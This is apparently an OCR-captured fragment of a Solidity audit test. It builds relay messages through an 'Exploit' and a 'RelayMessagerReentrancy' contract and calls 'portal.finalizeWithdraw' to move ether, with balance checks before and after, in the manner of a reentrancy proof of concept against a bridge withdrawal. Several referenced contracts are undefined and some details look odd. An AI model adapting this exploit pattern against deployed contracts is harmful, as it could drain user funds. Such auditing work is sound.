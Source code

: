 ```solidity
    address sender = address(this);
    address target = address(exploit);
    uint256 value = 0;
    uint256 minGasLimit = 100000000 wei;

    function createMessage() public returns (bytes memory) {

        bytes memory message = abi.encodeWithSelector(
            Exploit.call.selector,
            messager,
            3,
            sender,
            target,
            0,
            minGasLimit
        );

        return message;

    }

    function setUp() public {

    }

    function testHasEnoughGas() public {

        address bob = address(1231231243);

        console.log("bob's balance before");
        console.log(bob.balance);

        uint256 minGasLimit = 30000 wei;

        address sender = address(this);

        address target = bob;

        bytes memory message = abi.encodeWithSelector(
            '0x',
            messager,
            4,
            sender,
            target,
            1 ether,
            minGasLimit
        );

        bytes memory messageRelayer = abi.encodeWithSelector(
            RelayMessagerReentrancy.relayMessage.selector,
            4,
            sender,
            target,
            1 ether,
            minGasLimit,
            message   
        );

        portal.finalizeWithdraw{value: 1 ether, gas: 200000 wei}(minGasLimit, 1 ether, messageRelayer);

        console.log("bob's balance after the function call");
        console.log(bob.balance);
```